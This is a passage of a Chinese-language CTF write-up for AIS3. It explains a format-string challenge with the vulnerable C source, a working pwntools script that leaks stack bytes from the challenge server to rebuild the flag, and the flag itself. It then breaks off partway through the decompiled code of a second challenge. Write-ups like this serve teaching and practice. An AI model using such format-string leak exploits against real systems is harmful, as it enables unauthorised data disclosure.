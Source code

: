 ```c=
    read(0, format, 0xf);
    check_format(format);

    char buffer[0x20] = {0};
    strcpy(buffer, "Format number : %3$");
    strcat(buffer, format);
    strcat(buffer, "d\n");
    printf(buffer, "Welcome", "~~~", number);

    return 0;
}
```

英文字母用不了, 但`printf`格式時會自動加上`d`, 就能用`%k$d`的方式讀stack的資料

然後要用`_`來串接, 不然會被視為同一個conversion

exploit:
```python=
from pwn import *
import re

flag = ""
for i in range(0, 60):
    p = remote("chals1.ais3.org", 50960)
    p.recvuntil(b"What format do you want ? ")
    p.sendline(f"_%{i}$".encode())
    resp = p.recvall().decode()
    log.info(resp)
    p.close()

    match = re.search(r"Format number : %_(-?\d+)\n", resp)
    if match:
        val = int(match.group(1))
        if 0 <= val <= 255:
            flag += chr(val)
            log.info(flag)
            if chr(val) == '}':
                break
```
> Flag: AIS3{S1d3_ch@nn3l_0n_fOrM47_strln&_!!!}

## Welcome to the World of Ave Mujica🌙
chal:
```c=
int __fastcall main(int argc, const char **argv, const char **envp)
{
  _BYTE buf[143]; // [rsp+0h] [rbp-A0h] BYREF
  char s[8]; // [rsp+8Fh] [rbp-11h] BYREF
  unsigned __int8 int8; // [rsp+97h] [rbp-9h]
  char *v7; // [rsp+98h] [rbp-8h]

  setvbuf(stdin, 0, 2, 0);
  setvbuf(_bss_start, 0, 2, 0);
  printf("\x1B[2J\x1B[1;1H");
  printf("\x1B[31m");
  printf("%s", (const char *)banner);
  puts(&byte_402A78);
  puts(&byte_402AB8);
  fgets(s, 8, stdin);
  v7 = strchr(s, 10);
  if ( v7 )
    *v7 = 0;
  if ( strcmp(s, "yes") )
```